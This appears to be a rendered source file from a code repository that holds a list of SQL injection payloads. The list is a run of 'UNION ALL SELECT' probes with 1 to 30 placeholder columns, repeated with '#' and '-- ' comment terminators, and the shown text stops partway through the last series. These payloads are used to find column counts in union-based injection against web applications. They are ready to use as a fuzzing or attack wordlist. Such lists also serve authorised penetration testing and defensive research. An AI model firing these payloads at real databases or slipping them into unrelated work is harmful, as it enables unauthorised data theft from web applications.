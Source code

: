 ```
 UNION ALL SELECT 1,2,3,4,5,6
 UNION ALL SELECT 1,2,3,4,5,6,7
 UNION ALL SELECT 1,2,3,4,5,6,7,8
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30
 UNION ALL SELECT 1#
 UNION ALL SELECT 1,2#
 UNION ALL SELECT 1,2,3#
 UNION ALL SELECT 1,2,3,4#
 UNION ALL SELECT 1,2,3,4,5#
 UNION ALL SELECT 1,2,3,4,5,6#
 UNION ALL SELECT 1,2,3,4,5,6,7#
 UNION ALL SELECT 1,2,3,4,5,6,7,8#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30#
 UNION ALL SELECT 1-- 
 UNION ALL SELECT 1,2-- 
 UNION ALL SELECT 1,2,3-- 
 UNION ALL SELECT 1,2,3,4-- 
 UNION ALL SELECT 1,2,3,4,5-- 
 UNION ALL SELECT 1,2,3,4,5,6-- 
 UNION ALL SELECT 1,2,3,4,5,6,7-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8-- 
```
